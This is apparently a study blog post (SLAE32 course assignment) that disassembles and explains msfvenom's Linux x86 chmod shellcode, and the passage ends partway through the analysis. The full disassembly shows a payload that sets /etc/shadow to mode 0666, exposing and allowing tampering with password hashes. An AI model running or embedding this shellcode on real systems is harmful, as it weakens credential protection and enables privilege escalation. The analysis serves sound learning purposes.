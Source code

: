 {% highlight nasm linenos %}
00000000  99                cdq

00000001  6A0F              push byte +0xf
00000003  58                pop eax
00000004  52                push edx
00000005  E80C000000        call 0x16
0000000A  2F                das
0000000B  657463            gs jz 0x71
0000000E  2F                das
0000000F  7368              jnc 0x79
00000011  61                popa
00000012  646F              fs outsd
00000014  7700              ja 0x16
00000016  5B                pop ebx
00000017  68B6010000        push dword 0x1b6
0000001C  59                pop ecx
0000001D  CD80              int 0x80
0000001F  6A01              push byte +0x1
00000021  58                pop eax
00000022  CD80              int 0x80
{% endhighlight %}

## Analysis using ndiasasm

The shellcode start with `cdq` which will zeroing the `edx` register.

{% highlight nasm %}
00000000  99                cdq  ; xor edx, edx
{% endhighlight %}


then follow with `chmod` syscall argument (`eax` = `0xf`[15])

{% highlight nasm %}
00000001  6A0F              push byte +0xf  ; 0xf = 15
00000003  58                pop eax         ; eax = 0xf ~ chmod
00000004  52                push edx        ; edx = 0
00000005  E80C000000        call 0x16       
{% endhighlight %}

In Ubuntu we can check:
{% highlight console %}
kecebong@ubuntu:~/slae32/assigment/msfvenom$ grep " 15$" /usr/include/i386-linux-gnu/asm/unistd_32.h 
#define __NR_chmod               15
{% endhighlight %}

From [man 2 chmod](http://man7.org/linux/man-pages/man2/chmod.2.html), `chmod()` changes the mode of the file specified whose `pathname` is given in `pathname`, which is dereferenced if it is a symbolic link.

The format of `chmod`:
```
int chmod(const char *pathname, mode_t mode);
```
